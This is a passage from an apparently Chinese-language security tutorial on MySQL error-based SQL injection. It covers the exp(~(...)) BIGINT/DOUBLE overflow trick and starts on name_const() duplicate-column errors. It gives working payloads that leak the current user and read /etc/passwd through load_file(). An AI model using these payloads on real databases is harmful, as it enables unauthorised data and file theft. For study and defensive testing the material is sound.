 ![](../../../.gitbook/assets/tu-pian%20%2819%29.png)

当涉及到注入时，我们使用否定查询来造成“`DOUBLE value is out of range`”的错误。作者之前的博文提到的，将0按位取反就会返回“`18446744073709551615`”，再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号`BIGINT`值。

```text
select exp(~(select*from(select user())x));
```

![](../../../.gitbook/assets/tu-pian%20%2836%29.png)

你可以通过`load_file()`函数来读取文件，但作者发现有13行的限制，该语句也可以在`BIGINT overflow injections`中使用。

```text
select exp(~(select*from(select load_file('/etc/passwd'))a));
```

注意，你无法写文件，因为这个错入写入的只是`0`。

```text
mysql> select exp(~(select*from(select 'hello')a)) into outfile 'C:/out.txt';
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'hello' from dual)))'    

# type C:\out.txt
0
```

**数据重复报错：**

在MySQL中，列名重复会报错，所以`name_const()`函数就是利用这一特性，重新定义一个重复的列名来让数据库报错。

```text
name_const(name,value)

返回给定值。 当用来产生一个结果集合列时, name_const()促使该列使用给定名称。
```
